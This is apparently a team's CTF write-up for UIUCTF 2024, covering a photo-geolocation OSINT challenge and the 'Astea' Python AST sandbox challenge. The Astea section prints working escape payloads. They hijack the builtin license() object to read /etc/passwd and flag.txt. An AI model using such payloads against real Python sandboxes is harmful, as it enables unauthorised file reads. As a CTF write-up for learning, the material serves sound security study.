





# UIUCTF 2024
A massive outage is affecting the entire transit system! The SIGPwny Transit Authority has issued an emergency call to CTF teams for help with restoring service. Solve challenges to fix stations and deliver as many passengers as you can!

on 2024-06-29, 67.51 weight rating. <br>
https://2024.uiuc.tf/ <br>
ctftime: https://ctftime.org/event/2275 <br>

### Index
- [Osint](#osint)
    - [New Dallas](#new-dallas)
- [Misc](#misc)
    - [Astea](#astea)


# Osint

## New Dallas
Author: CBCicada <br>
Super wide roads with trains... Is this the new Dallas? Flag format: uiuctf{coordinates of intersection between the rail and the road} Example: uiuctf{41.847, -87.626} <br>
Flag format clarification: Use three decimal points of precision, truncate, and do not round. Use Google Maps location for reference. The last digit of the first cooordinate is odd, and the last digit of the second coordinate is even.

credit to teammates: [Popax21](https://github.com/Popax21), [aryt3](https://github.com/Aryt), [0xm4xw3ll](https://github.com/maxbirnbacher), pht3v3n, [callmealasca](https://github.com/CallMeAlasca), [bysimpson](https://github.com/bySimpson), [profiluefter](https://github.com/profiluefter), [shadowcone](https://github.com/ItsShadowCone), moriz, pg999, kdm, [berndoJ](https://github.com/berndoJ), [lavish](https://minimalblue.com/), [jones](https://github.com/jonasheschl)


as the license plates are blue, the picture was taken in China <br>
https://en.wikipedia.org/wiki/Vehicle_registration_plates_of_China <br>

through exiftool you can get the time, when the picture was taken: <br>
```bash
$ exiftool chal.jpg
Date/Time Original              : 2024:06:16 15:40:51
Camera Model Name               : Galaxy S24+
Time Stamp                      : 2024:06:16 09:40:51.914+02:00
```

you can get an approximate location by using the shadows of the cars and the time when the picture was taken to calculate an approximate circle where the picture was taken. <br>
https://github.com/bellingcat/ShadowFinder <br>
https://colab.research.google.com/github/Bellingcat/ShadowFinder/blob/main/ShadowFinderColab.ipynb

 <br>

use OSM (Open Streetmap) API to get subways driving over a bridge (viaduct, layer 2) <br>
execute on https://overpass-turbo.eu/ <br>
```js
[out:json];

// define country to search in
area["name:en"="China"]["admin_level"="2"]->.searchArea;

// subways
(
  way["railway"="subway"]["bridge"="viaduct"]["layer"=2](area.searchArea);
)->.subways;

// MapCSS
{{style:
way[railway]{color:red; fill-color:red;}
}}

// get subways on map
.subways out geom; 
```

 <br>
 <br>
 <br>


solution: https://www.google.com/maps/place/31%C2%B034'50.9%22N+120%C2%B023'00.4%22E/@31.5808079,120.3821685,494m/

Resources: <br>
- docs: https://wiki.openstreetmap.org/wiki/Overpass_API
- docs: https://dev.overpass-api.de/overpass-doc/
- examples: https://wiki.openstreetmap.org/wiki/Overpass_API/Overpass_API_by_Example


# Misc

# Astea
Author: Cameron <br>
I heard you can get sent to jail for refusing a cup of tea in England. <br>
ncat --ssl astea.chal.uiuc.tf 1337 <br>
https://2024.uiuc.tf/challenges?id=astea <br>

AST manipulation challenge. <br>
AST (Abstract Syntax Tree) is a tree representation of the abstract syntactic structure of python code. <br>
credit to teammates: neverbolt, [jones](https://github.com/jonasheschl), [bySimpson](https://github.com/bySimpson)



Challenge code:
```python
import ast

def safe_import():
    print("Why do you need imports to make tea?")

def safe_call():
    print("Why do you need function calls to make tea?")


class CoolDownTea(ast.NodeTransformer):

    # calls safe_call() if function is called
    def visit_Call(self, node: ast.Call) -> ast.AST:
        return ast.Call(func=ast.Name(id='safe_call', ctx=ast.Load()), args=[], keywords=[])

    # calls safe_import() if "import" is used
    def visit_Import(self, node: ast.AST) -> ast.AST:
        return ast.Expr(value=ast.Call(func=ast.Name(id='safe_import', ctx=ast.Load()), args=[], keywords=[]))

    # calls safe_import() if "import from" is used
    def visit_ImportFrom(self, node: ast.ImportFrom) -> ast.AST:
        return ast.Expr(value=ast.Call(func=ast.Name(id='safe_import', ctx=ast.Load()), args=[], keywords=[]))

    # turns every assignment into an assignment to 0
    # foo = 20 -> foo = 0
    def visit_Assign(self, node: ast.Assign) -> ast.AST:
        return ast.Assign(targets=node.targets, value=ast.Constant(value=0))

    # turns every mathematical operation into one where the second value is replaced by the first one
    # turns 4 + 10 into 4 + 4 and so on
    def visit_BinOp(self, node: ast.BinOp) -> ast.AST:
        return ast.BinOp(left=ast.Constant(0), op=node.op, right=ast.Constant(0))


code = input('Nothing is quite like a cup of tea in the morning: ').splitlines()[0]

cup = ast.parse(code)
cup = CoolDownTea().visit(cup)
ast.fix_missing_locations(cup)

# execute the AST
exec(compile(cup, '', 'exec'), {'__builtins': {}}, {'safe_import': safe_import, 'safe_call': safe_call})

```


Exploit through license(): <br>


```python
# the exploit makes use of the license() function which reads a file and prints it
>>> license()
A. HISTORY OF THE SOFTWARE
==========================
...

# by default a license file is read, which is defined in the _Printer__filenames attribute
>>> license._Printer__filenames
['/usr/lib/python3.12/../LICENSE.txt', '/usr/lib/python3.12/../LICENSE', '/usr/lib/python3.12/LICENSE.txt', '/usr/lib/python3.12/LICENSE', './LICENSE.txt', './LICENSE']

# this license file can be changed to read arbitrary files
>>> license._Printer__filenames = ['/etc/passwd']   # change the license file to /etc/passwd
>>> license()
root:x:0:0::/root:/bin/zsh
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
...


# EXPLOIT WITH WALRUS OPERATOR
# credit: ChattyPlatinumCool
# first get access to license function using safe_import() and the walrus operator (:=)
# walrus operator: https://docs.python.org/3/whatsnew/3.8.html
[license := safe_import.__globals__['__builtins__'].license];

# then add flag.txt to list of license files
license._Printer__filenames += ['flag.txt'];

# safe_call is now <list.reverse> function i.e. calling safe_call() will reverse the list of filenames, so that flag.txt is read first
[safe_call := license._Printer__filenames.reverse];

# reverse the list so flag.txt is first
safe_call();

# safe_import is now license
[safe_import := license]; 

# importing something and therefore triggering safe_import(), which is now license()
import sys  

# all together as a single line
[license := safe_import.__globals__['__builtins__'].license]; license._Printer__filenames += ['flag.txt']; [safe_call := license._Printer__filenames.reverse]; safe_call(); [safe_import := license]; import sys


# SHORTER VERSION WITH TYPE HINTING
# credit: neverbolt
# makes use of type hinting, which won't be cought as an assignment by visit_Assign() in the AST manipulation
# https://docs.python.org/3/library/typing.html

# change filenames of license to flag.txt by using the type hinting feature of python
safe_call.__globals__["__builtins__"].license._Printer__filenames: None = ["flag.txt"]; 

# again make use of type hinting to call license(), when safe_call() is called
safe_call: None = safe_call.__globals__["__builtins__"].license; 

# call random function to trigger safe_call, which is now license
hello()

# as a single line
safe_call.__globals__["__builtins__"].license._Printer__filenames: None = ["flag.txt"]; safe_call: None = safe_call.__globals__["__builtins__"].license; helo()


```


Resources: <br>
- ast docs: https://docs.python.org/3/library/ast.html
- ast wikipedia: https://en.wikipedia.org/wiki/Abstract_syntax_tree
- hacktricks python sandbox escape: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
- https://astexplorer.net/
    - source (6k stars): https://github.com/fkling/astexplorer
- https://ast-grep.github.io/
    - https://ast-grep.github.io/playground.html
    - source (7k stars): https://github.com/ast-grep/ast-grep

- different writeup: https://medium.com/@harryfyx/writeup-uiuctf-2024-astea-7b27ec0b9159
